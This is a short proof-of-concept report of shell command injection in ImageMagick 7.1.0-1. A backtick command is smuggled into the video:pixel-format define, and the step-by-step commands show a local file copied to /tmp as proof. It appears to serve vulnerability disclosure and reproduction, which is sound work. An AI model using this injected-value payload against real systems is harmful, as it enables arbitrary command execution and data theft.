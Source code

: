 # Shell Command Injection in ImageMagick via VIDEO Options

## POC URL
https://github.com/ImageMagick/ImageMagick/issues/6338

## Compilation Environment
- ImageMagick version 7.1.0-1
- Operating System: Linux (any version)

## Run Command
1. First create a test file with content to leak:
   ```
   echo 'deadbeef' > test.txt
   ```
2. Execute the vulnerable command with command injection:
   ```
   magick identify -define video:pixel-format='rgba"`cat test.txt > /tmp/leak.txt`"' test.mov >info.log
   ```
3. Verify the command injection worked by checking the leaked file:
   ```
   cat /tmp/leak.txt
   ```

## Expected Output
The contents of `test.txt` (`deadbeef`) should be written to `/tmp/leak.txt`, demonstrating successful command injection via the `video:pixel-format` parameter.